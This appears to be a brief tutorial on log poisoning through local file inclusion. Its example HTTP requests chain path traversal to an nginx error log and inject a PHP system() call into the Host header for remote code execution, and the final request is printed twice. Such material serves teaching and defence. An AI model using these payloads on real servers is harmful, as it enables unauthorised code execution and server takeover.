 Log poisoning is a vulnerability that is caused by local file inclusion where an attacker is able to view the contents of the log file and modify the value of HTTP headers - `Host:` and `User-Agent:` for example, to write arbitrary code and achieve remote code execution on the server.

For example, imagine an application that returns a `.php` page by reading the `page` parameter
```http
GET /blog.php?page=hello-world.php
Host: target-website.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
```
We can exploit this by chaining path traversal and local file inclusion to view the log file:
```http
GET /blog.php?page=../../../../var/log/nginx/error.log
Host: target-website.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
```
Notice that in the log file, the `Host` HTTP header is displayed along with other HTTP headers. Therefore, we will attempt to remote code execution to view the contents of a sensitive file or upload a shell to gain full control of the server.
```http
GET /blog.php?page=../../../../var/log/nginx/error.log
Host: <?php system('ls /etc/passwd') ?>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
```
```http
GET /blog.php?page=../../../../var/log/nginx/error.log
Host: <?php system('ls /etc/passwd') ?>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
```